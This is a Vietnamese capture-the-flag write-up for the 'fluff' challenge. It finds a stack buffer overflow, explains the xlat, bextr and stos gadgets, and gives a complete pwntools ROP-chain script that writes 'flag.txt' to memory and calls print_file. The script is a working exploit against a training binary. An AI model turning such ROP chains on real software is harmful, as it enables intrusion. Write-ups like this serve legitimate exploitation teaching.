

**1. Tìm lỗi**

Chạy thử chương trình ta thấy:


Chương trình cho phép chúng ta nhập vào 1 chuỗi rồi kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra


Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗ hổng bof

Dùng lệnh file để kiểm tra:


Ta thấy là file elf64 bit

Ta có mã assembly hàm main như sau:


Ở hàm main chỉ thực hiện gọi hàm pwnme, ta có hàm pwnme như sau:


Ta thấy ở hàm pwnme có khoảng cách từ biến đển ret là 0x20 + 0x8 = 40 nhưng cho nhập 0x200 = 512 byte -> Có lỗi bof

Ta có hàm usefulFunction:


Ở hàm này chỉ gọi hàm print_file với tham số được truyền vào, xét hàm print_file ta có:


Ở hàm này khi truyền tên file vào thanh ghi rdi thì chương trình sẽ đọc và ghi nội dụng của tệp ra. Chúng ta có thể chèn vào chuỗi flag.txt để lấy giá trị flag

Để ghi vào rdi thì trước đó phải pop rdi ra


Ta thấy địa chỉ 0x00000000004006a3 đã có lệnh pop rdi

Ngoài ra còn hàm questionableGadgets:


Theo tìm hiểu:
 - xlat: là một lệnh assembly x86 được sử dụng để thực hiện việc chuyển đổi các giá trị trong bảng chữ cái theo bảng mã ASCII hoặc EBCDIC. Ở đây xlat sẽ chuyển đổi giá trị tại địa chỉ ds:[rbx] trong bảng chữ cái và lưu trữ nó trong thanh ghi AL.

 - bextr: là một lệnh xử lý bit trong CPU Intel x86_64, được sử dụng để lấy một số bit liên tiếp từ một thanh ghi và lưu chúng vào một vị trí mới trong một thanh ghi khác. Ở đây bextr rbx,rcx,rdx, nó có ý nghĩa là lấy một số bit liên tiếp từ thanh ghi rcx, bắt đầu từ bit ở vị trí rdx và lưu trữ chúng vào thanh ghi rbx.

 - stos: là một instruction dùng để lưu trữ một byte (hoặc một từ hoặc một double word) từ thanh ghi AL (hoặc thanh ghi AX hoặc thanh ghi EAX) vào vị trí được chỉ định bởi thanh ghi RDI trong bộ nhớ. Đồng thời, nó cũng có thể tăng hoặc giảm địa chỉ được chỉ định bởi thanh ghi RDI. Ở đây stos BYTE PTR es:[rdi],al được sử dụng để lưu trữ giá trị của thanh ghi AL vào địa chỉ được chỉ định bởi thanh ghi RDI trong bộ nhớ và tăng giá trị của thanh ghi RDI lên đúng 1 byte.

**2. Ý tưởng**

Để ghi chuỗi flag.txt vào thanh ghi rdi thì chúng ta sử dụng stos với yêu cầu chúng ta kiểm soát được flag nên xlat được sử dụng tiếp theo. Nhưng xlatb sử dụng nội dung trong rbx nên bextr cũng được sử dụng

Ở trước bextr có câu lệnh add rcx, 0x3ef2 nên khi thực hiện phải trừ 0x3ef2

Thứ tự payload:
 - 40 byte tràn đến ret
 - Truyền ký tự flag.txt vào địa chỉ trống
 - Địa chỉ lệnh pop rdi
 - Đưa địa chỉ chứa chuỗi flag.txt mới thêm
 - địa chỉ lệnh call print_file
  
**3. Viết script**

Tìm địa chỉ trống để lưu chuỗi



Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

elf = ELF('./fluff')
r = process('./fluff')

pop_rdi = 0x00000000004006a3
rw_section = 0x601030
xlat = 0x0000000000400628
bextr = 0x000000000040062a
stos = 0x0000000000400639
sub = 0x3ef2
print_file = 0x0000000000400620
flag = b"flag.txt"
char = []

#Đổi chuỗi flag về hex
for i in flag:
    addr = hex(read('fluff').find(i) + elf.address)
    #print(addr)
    char.append(addr)
    #print(char)

rax = 0xb
payload = b'a'*40

#Ghi từng hex của char vào địa chỉ trống
for i, char in enumerate(char):
    if (i != 0):
        rax = flag[i-1]
    payload += p64(bextr) #pop rdx, pop rcx, add rcx 0x3ef2, bextr
    payload += p64(0x4000) 
    payload += p64(int(char, 16) - rax - 0x3ef2)
    payload += p64(xlat)
    payload += p64(pop_rdi)
    payload += p64(rw_section + i)
    payload += p64(stos)

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**


